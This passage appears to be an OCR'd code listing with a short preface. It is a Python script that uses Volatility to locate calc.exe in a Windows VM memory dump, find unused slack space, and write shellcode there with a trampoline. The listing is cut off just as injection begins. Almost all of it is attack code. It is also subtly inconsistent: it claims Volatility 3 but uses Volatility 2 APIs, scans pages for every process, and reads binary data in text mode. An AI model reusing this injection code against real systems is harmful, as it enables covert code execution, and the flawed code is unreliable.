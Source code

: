 This Python script utilizes **Volatility 3** to interact with a memory dump (`Win10X64.vmem`), locates a target process (`calc.exe`), searches for unused memory space (slack space), and injects shellcode into that space. Additionally, it creates a trampoline to redirect execution to the injected shellcode.


```python
import sys
import struct
import volatility.conf as conf
import volatility.registry as registry
import volatility.commands as commands
import volatility.addrspace as addrspace
import volatility.plugins.taskmods as taskmods

equals_button = 0x01005D51

memory_file = "Win10X64.vmem"
slack_space = None
trampoline_offset = None

# read in our shellcode
with open("cmeasure.bin", "rb") as sc_fd:
    sc = sc_fd.read()
    
sys.path.append("/volatility3.1.0.0")

registry.PluginImporter()
config = conf.ConfObject()

config.parse_options()
config.PROFILE = "Win10X64"
config.LOCATION = f"file://{memory_file}"

registry.register_global_options(config, commands.Command)
registry.register_global_options(config, addrspace.BaseAddressSpace)

p = taskmods.PSList(config)

for process in p.calculate():
    if str(process.ImageFileName) == "calc.exe":
        print(f"[*] Found calc.exe with PID {process.UniqueProcessId}")
        print("[*] Hunting for physical offsets...please wait")
    
    address_space = process.get_process_address_space()
    pages = address_space.get_available_pages()
    
    for page in pages:
        physical = address_space.vtop(page[0])
        if physical is not None:
            if slack_space is None:
                
                with open(memory_file, "r+") as fd:
                    fd.seek(physical)
                    buf = fd.read(page[1])
                    try:
                        offset = buf.index("\x00" * len(sc))
                        slack_space = page[0] + offset
                        
                        print("[*] Found good shellcode location!")
                        print("[*] Virtual address: 0x%08x" % slack_space)
                        print("[*] Physical address: 0x%08x" % (physical + offset))
                        print("[*] Injecting shellcode.")
                        
                        fd.seek(physical + offset)
```